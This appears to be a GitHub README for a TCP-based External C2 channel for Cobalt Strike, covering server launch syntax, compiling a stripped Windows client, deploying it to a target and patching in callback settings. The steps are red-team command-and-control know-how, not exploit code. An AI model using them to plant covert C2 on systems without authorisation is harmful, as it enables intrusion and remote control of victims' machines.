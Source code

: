 # COBALT STRIKE TCP CHANNEL

This project provides a TCP-based communication channel for Cobalt Strike. This is meant as a base for covert channels implemented in any TCP-based protocol.

To use the channel, load up Cobalt Strike and add a new External C2 listener.
This channel is configured to run on the default Teamserver port of 2222.

To start the server, run the following command:

> python3 [Name].py [Teamserver IP] [Python Server IP] [Port] [Pipename] [OPTIONAL:-tp TeamserverPort -r Restart]

- [Name] is the name of your Python server.
- [Teamserver IP] is the IP of your Cobalt Strike teamserver.
- [Python Server IP] is the IP of the machine you are running server.py on. (“0.0.0.0” has been found to work on Linux machines, though it is unknown if this behavior is consistent everywhere.)
- [Port] is the port that the server listens on to communicate with the client over. This is not the same port that the Python server uses to communicate with the teamserver.
- [Pipename] is the name of the pipe the client creates when it runs on the target. This could be any valid pipename.  
- [TeamserverPort] is the port to connect to on the Cobalt Strike teamserver. It defaults to 2222 and is an optional argument.
- [Restart] is a Y/N value to either restart the server after disconnect or exit. Default is N.

If you have the MinGW compiler installed, you may compile the client C code with the following command:

>i686-w64-mingw32-gcc -s -O3 -fvisibility=hidden -o client.exe client.c -lws2_32

You can compile the debug version of the client with print statements by adding `-DDEBUG` to the end of the compile command

Change the client exe name if desired.
Move the resultant executable to your target machine, and then run it with the following command:

>./[Name].exe

Use the binary patcher to patch in arguments <https://github.com/fitzgeralddaniel/binary_patcher>

>python3 bipa.py [input binary] [output binary] -a [Python Server IP] -b [Port] -c [Pipename] -d [Sleep] -e [Timeout]

- [Python Server IP], [Port], and [Pipename] must be the same as the ones passed to server.py.
- [Sleep] is the sleep time (in seconds) to wait between check ins with the server. It hits this sleep when the beacon indicates it has nothing left to send back to the server and is just checking in.
- [Timeout] is the send/recv socket timeout option (in seconds) set by setsockopt(). May remove in future.

## CONSTRAINTS AND NOTES

- This channel expects only one client per instance of server.py. Multiple clients communicating with the same server requires multiple instances of server.py running on different ports.
- The client closes the TCP connection, sleeps, then reopens the TCP connection. If there is a small sleep timer, this will result in a lot of short TCP sessions with the source port increasing. If the link/path dies during this sleep the client will timeout (after sleeping and attempting to reconnect) and the server will get stuck on accept() waiting for the client to connect back in. You will need to restart the server to use it again.

## TODOS/IMPROVEMENTS

- Handle multiple clients on one server.
